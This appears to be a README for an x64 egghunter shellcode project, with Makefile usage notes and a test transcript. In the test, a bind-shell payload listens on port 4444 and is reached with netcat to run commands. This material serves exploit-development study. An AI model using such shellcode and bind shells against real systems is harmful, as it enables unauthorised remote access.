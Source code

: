 # Egghunter x64 shellcode

Listing:
- `egghunter.s` - Egghunter x64 shellcode

## Usage

Use `make egghunter [PROJECT=${PROJECT}]`. If no `PROJECT` specified, uses "Hello, World" shellcode.

Egghunter shellcode can be used in accordance with other compatible Makefile targets. Examples:
```
make shellcode PROJECT=egghunter
make disasm PROJECT=egghunter
...
```

## Testing

First terminal:
```
$ make egghunter PROJECT=bind
...
$ out/egghunter
Egghunter length: 46
Shellcode length: 124

```

Second terminal:
```
$ sudo lsof -i -P | grep egghunter
egghunter 8408          ubuntu    3u  IPv4 104744      0t0  TCP *:4444 (LISTEN)
$ nc localhost 4444
id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
```
